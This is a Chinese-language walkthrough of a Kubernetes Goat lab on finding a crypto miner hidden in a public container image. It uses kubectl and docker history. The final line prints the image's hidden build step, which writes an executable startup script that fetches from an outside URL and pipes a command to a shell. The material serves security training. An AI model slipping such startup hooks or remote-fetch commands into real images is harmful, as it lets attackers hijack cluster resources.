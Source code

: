 Analyzing crypto miner container

分析加密挖矿容器\[将挖矿木马映像推送到公共容器注册表\]

 通常可以看到，大多数容器用户从 Docker Hub 等公共容器注册表下载映像。我们已经看到了大量的黑客攻击和妥协，以及攻击者通过上传容器映像来滥用这些漏洞，这些容器映像具有加密矿工来使用集群资源。在此方案中，我们看到一种在公共容器映像中利用这些漏洞的简单且非常常见的方法。


 kubectl get jobs

kubectl get jobs 是 Kubernetes 命令行工具（kubectl）中的一个命令，用于获取当前集群中运行的 Job 对象的信息。在 Kubernetes 中，Job 是一种用于批处理任务的控制器。它用于确保在集群中运行一个或多个 Pod，直到其中的一个 Pod 成功完成其任务。

 确定 Kubernetes 集群中的所有资源/映像，包括作业

![image-20231125171202313](./assets/image-20231125171202313.png)

  

 获取job信息

 kubectl describe job batch-check-job

![image-20231125171205840](./assets/image-20231125171205840.png)

- Namespace: Job 所在的命名空间是 "default"。

- Selector: 使用了一个 controller-uid 作为选择器，这是与该 Job 相关联的唯一标识符。

- Labels: Job 自身有两个标签，分别是 "controller-uid" 和 "job-name"。

- Annotations: 包含关于该 Job 的一些注释信息。在这个例子中，显示了由 kubectl 设置的最后应用配置的信息。

- Parallelism: 该 Job 的并行度为 1，这表示同一时间只有一个 Pod 会被创建并运行。

- Completions: Job 的完成数为 1，这表示 Job 中需要成功完成的 Pod 的数量。

- Start Time: 该 Job 的启动时间是 "Thu, 16 Nov 2023 23:38:34 -0800"。

- Completed At: Job 的完成时间是 "Thu, 16 Nov 2023 23:38:49 -0800"。

- Duration: 该 Job 的执行时间为 15 秒。

- Pods Statuses: 提供了与 Pod 状态相关的摘要信息。在这里，显示了 0 个正在运行的 Pod、1 个成功完成的 Pod 和 0 个失败的 Pod。

- Pod Template: 显示了 Job 使用的 Pod 模板，其中包含了一个名为 "batch-check" 的容器，以及容器的镜像信息。

- Events: 为该 Job 相关的事件提供了信息。在这个例子中，显示了一个 "SuccessfulCreate" 事件，说明成功创建了一个 Pod，并提供了 Pod 的名称（"batch-check-job-jpqkb"）。

  

 kubectl get pods --namespace default -l "job-name=batch-check-job" 命令用于获取在 "default" 命名空间中带有标签 "job-name=batch-check-job" 的所有 Pods 的信息。这个命令会列出与特定 Job 关联的所有 Pods。

![image-20231125171211822](./assets/image-20231125171211822.png)

 获取指定pod信息

 kubectl get pod batch-check-job-xxxx -o yaml

![image-20231125171214796](./assets/image-20231125171214796.png)

  

获取构建历史\[这是攻击者将挖矿木马映像推送到公共容器注册表中的常见方式\]

 docker history --no-trunc madhuakula/k8s-goat-batch-check

![sc-10-4-649f6c8af994c250d16af0eae7581db3](./assets/sc-10-4-649f6c8af994c250d16af0eae7581db3.png)

 echo "curl -sSL <https://madhuakula.com/kubernetes-goat/k8s-goat-a5e0a28fa75bf429123943abedb065d1> && echo 'id' \| sh " \> /usr/bin/system-startup && chmod +x /usr/bin/system-startup

